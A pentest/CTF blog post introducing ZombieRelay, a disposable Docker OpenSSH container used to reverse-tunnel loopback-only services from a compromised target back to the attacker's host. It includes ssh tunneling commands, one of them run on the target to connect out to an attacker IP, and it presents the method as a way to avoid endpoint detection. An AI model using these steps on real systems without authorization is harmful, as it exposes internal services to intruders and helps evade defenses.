 ```yaml
---
layout: post
title: ZombieRelay - Temporary Docker container for reverse SSH Tunneling
date: 2025-04-19
categories: [Cybersecurity, CTF, Pentest, Docker]
tags: [cybersecurity, docker, ssh, pentest, ctf]
---
```


![](/assets/images/zombierelay_banner_wb1.jpg)

It is not uncommon to find web services running only on the loopback interface while enumerating a system after gaining a foothold on it during a penetration test (or a CTF). How do you visit them if you don't have access to a browser on the remote host? If you accessed the target via SSH or got an instable reverse shell after exploiting some external service?

The answer to the aforementioned problem is **tunneling**: in simple terms, you set up a tunnel on the target that redirects traffic from your host to the interface and port hosting the local service.

There are various ways to achieve this, but my favorite is using **SSH** because it doesn’t require dropping executables on the target, which could potentially trigger any antimalware or endpoint protection system running on the target machine, even just due to a signature match.

If the target hosts an SSH server and you know some remote user's credentials, you don't need anything else than running the following command on your host.

```sh
ssh -L 8080:127.0.0.1:8080 user@target.htb -N -f
```

However, there are cases where you don't have credentials to access SSH or the target doesn't even have an SSH server running. What can you do then?

You can do it the other way around: make the target initiate an SSH connection to your machine hosting an SSH server, effectively creating a reverse tunnel from the target to your host.

Since giving access to your host to the target is not a good idea, I created **Zombie Relay**, a docker-compose script to build an Alpine container with an OpenSSH server installed. **Designed to die and rise again, just like a zombie**.

🗂 Repository: [Zombie Relay - Github](https://github.com/0xyy66/ZombieRelay)

- Easy to setup
- Temporary
- Doesn't expose your host file system
- You don't need to drop any noisy executable on the target

## How it works

### Configuration - tuning your zombie

Before building the container, I suggest to take a look at the `docker-compose.yml` file. 

```yml
services:
  zombierelay:
    image: alpine:latest
    ports:
      - "2224:22"
      - "9090:9090"
```

By default only 2 ports are mapped:

- 2224:22 - exposes OpenSSH on your host on port 2224
- 9090:9090 - you will tunnel the remote service through port 9090 of the container and it will be available on port 9090 of your host.

**You can map as many ports as you need**, just append another line to ports (ex. `- "80:8080"`).

### Raising a zombie

Spawning a Zombie Relay container is as easy as running `docker compose up`.

![](/assets/images/zombierelay_attacker_docker.png)

The docker compose script fetches an Alpine container, installs OpenSSH, creates a pair of keys (Ed25519) and copies the sshd_config configured to permit tunneling inside the container.

After the keys creation, Docker prints out the private key, so you can drop it on the target and connect back to the container running on your host (it just needs some manual cleaning from the Docker prefix and the newlines) or you can directly copy the key from the container to your host (preferred way).

```sh
docker cp $(docker ps -l -q):/root/.ssh/id_ed25519 .
```

### Tunnel the remote service to your host

For this part, I set up a Python HTTP server running on port 8080 **locally**. When a local user visits the website root, he receives the message "Internal service only".

![](/assets/images/zombierelay_victim_1.png)

It's now time to drop the zombie's private key on the target and tunnel the local service. Don't forget to **change the file's permissions to 600** (`chmod 600 id_ed25519`). 

Finally, run the ssh command to reverse tunnel the service.

```sh
ssh -i id_ed25519 -p 2224 -R 9090:127.0.0.1:8080 root@10.10.14.20 -N -f
```

In this case, I'm mapping the local service running on port 8080 to the Zombie Relay port 9090, which is mapped on my host on port 9090.

> In my docker-compose file the port is mapped as `8080:9090`

![](/assets/images/zombierelay_victim_2.png)

> The `-N` and `-f` flags, are useful to prevent spawning an SSH session on the container or leaving the remote shell suspended.

### Accessing the remote "internal service only" locally

Lastly, once the remote local service is tunneled to your host, open your browser and navigate to it via the mapped port (9090 in this case).

![](/assets/images/zombierelay_attacker_tunneled_service.png)

## Conclusion

The relay is easy to set up, portable, and (hopefully) stealthier than dropping a binary on the target. A health check is in the works to help with connectivity issues. Suggestions and feedback are more than welcome.

🗂 Repository: [Zombie Relay - Github](https://github.com/0xyy66/ZombieRelay)